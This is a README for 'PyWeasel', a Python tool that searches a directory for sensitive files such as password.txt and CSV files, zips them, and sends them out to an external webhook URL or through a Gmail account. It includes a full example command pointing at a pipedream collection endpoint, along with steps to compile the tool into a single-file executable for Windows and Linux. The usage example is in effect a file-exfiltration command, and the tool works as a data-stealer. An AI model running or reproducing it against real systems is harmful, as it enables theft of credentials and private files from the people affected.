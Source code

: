 <p align="center">
  <img width="460" src="https://i.ibb.co/jy7QPYW/weasel-cartoon-119631-230.png">
</p>

# PyWeasel

PyWeasel is a Python software to help you to find and extract sensitive data.

## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install PyWeasel.

```bash
python -m pip install pip --upgrade --user
pip install --user pipenv
pipenv install
pipenv shell
```

## Usage

```
Example : ./pyweasel.bin --url=https://your_workflow.m.pipedream.net --input-file=lin_list.txt --search_files=password.txt,csv --path="/home/user/" --interactive=True --email="xxxx@gmail.com" --password="password" --zip=True

--url
        Url parameter for http server
--input-file
        File with the list of files or extension to search
--search-files
        File extension to find ('txt') or filename to find ('secret.txt')
--contains-text
        Text contains in filename
--path
        Base directory to find files
--interactive
        Launch script interactive
--email
        Gmail email
--password
        Gmail password
--zip
        Zip files found in csv
```

## Compiling
To compile, first add nuitka when you are in `pipenv shell`

```bash
python -m pip install nuitka
```

After this, use command appropriate to your env.

### Windows
```bash
python -m nuitka --onefile --windows-onefile-tempdir pyweasel.py
```

### Linux
```bash
python -m nuitka --onefile pyweasel.py
```


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.